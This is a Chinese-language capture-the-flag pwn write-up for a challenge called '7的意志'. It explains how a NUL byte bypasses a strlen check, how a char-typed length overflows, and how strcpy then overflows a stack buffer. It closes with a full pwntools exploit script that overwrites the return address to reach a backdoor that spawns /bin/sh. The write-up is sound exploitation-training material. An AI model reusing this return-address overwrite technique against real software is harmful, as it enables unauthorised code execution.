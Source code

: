 # 7的意志

考点：字符串溢出，整数溢出



查壳,没开canary和pie,通过ida反编译得知,程序中有backdoor函数能够执行system("/bin/sh"),初步设想绕过能找到溢出点覆盖ret为backdoor地址即可拿到shell

如果我们要使s[16]=='M',需要绕过strlen函数,strlen函数如果读到'\x00'会截断读取,我们人工在s的前10个字符其中一个写入'\x00'绕过此关

![g5G63V.png](https://z3.ax1x.com/2021/05/19/g5G63V.png)

crazyread中能读入0x200个字符传入salute

![g5ti7Q.png](https://z3.ax1x.com/2021/05/19/g5ti7Q.png)

salute中要求传入的字符串s长度==7时执行strcpy,而strcpy是可以使dest溢出的. 这里注意到用char类型的v3存了一下长度,如果v3大于128的话会导致整数溢出,构造完溢出strcpy后,我们写满255+7 个字符来跳过strlen判断

![gvPNeH.png](https://z3.ax1x.com/2021/05/24/gvPNeH.png)

~~~python
from pwn import *
context(log_level = 'debug')
p = process("./pwn2")
e = ELF("./pwn2")


payload = b'\x00' + b'M'*0x10   # 可以全覆盖为M,也可以只覆盖目标值为M
p.sendlineafter("strlen?", payload)
binsh=0x080486CA    # 后门执行system("/bin/sh")地址
payload = b'a'*0x10 + b'a'*0x8 + p32(binsh) # 记得覆盖
payload = payload.ljust(255+7, b'a') #
p.recvuntil('Clearlove')
p.sendline(payload)

p.interactive()
~~~

